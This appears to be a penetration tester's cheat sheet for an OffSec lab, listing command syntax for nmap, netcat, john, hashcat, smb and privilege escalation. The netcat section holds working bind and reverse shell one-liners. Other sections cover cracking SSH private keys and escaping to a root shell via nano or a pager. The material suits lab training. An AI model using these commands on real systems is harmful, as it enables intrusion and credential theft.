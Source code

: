 - [nmap](#nmap)
- [dirbuster](#dirbuster)
- [nc](#nc)
- [netstat](#netstat)
- [john](#john)
- [hashcat](#hashcat)
- [SSH](#ssh)
- [nano](#nano)
- [GTFOBins](#GTFOBins)
- [smb](#smb)
---

### nmap
```
-v                    # verbose(output if you found something)
-sS ip                # stealth scan for 1000 most common ports
-sT ip                # TCP connect scan most common ports
-p 90-2000            # port ranges
-A                    # agressive scan(perform OS and version checking)
-p-                   # all ports
-sS -sU -p- ip        # scan all TCP and UDP ports
-v -sS -A -T2 ip      # use T4 for internal, T2 for external
-v -sS -p- -A -T2 ip  # like above but scans all TCP ports

-script

```

### dirbuster
```
dirbuster -u url
```

### nc
```
Most ncs in the OffSec lab (like most ncs in popular linux distros) don't support -e. It simply doesn't exist.
The solution is to redirect the stdin/stdout communication through a pipe:
cd /tmp
mknod mypipe p
#for a bind shell
/bin/bash 0< /tmp/mypipe | nc -nlvp 4444 1> /tmp/mypipe
#for a reverse shell
/bin/bash 0< /tmp/mypipe | nc 192.168.1.100 4444 1> /tmp/mypipe
```

### netstat
```
netstat -tulpn # find all open ports
```

### john
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ~/passwords.txt # passwords
# SSH KEYS
# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### hashcat
```
hashcat -m <type> hash.txt wordlist.txt
# see type https://hashcat.net/wiki/doku.php?id=example_hashes
```

### ssh
```
# keys must have good permisions
chmod 400 # r by you 
chmod 600 # rw by you
ssh -i key name@host
ssh name@host
```

### nano
```
# Ctrl + R to read files
# useful if you can run nano as root
```

### sudo
```
sudo -l # list the allowed (and forbidden) commands for the invoking user
```

### GTFOBins
```
if the sudo command output is just reading stuff try to resize the terminal so it looks 'less' like 
when outputing, then you can easily !/bin/bash
```

### smb
```
smbclient -N //ip/share
smbmap -H ip
smbmap -u user -p password -H ip
mount -t cifs //ip/share /local/mountpoint
mount -t cifs -o user=username //ip/share /local/mountpoint
```
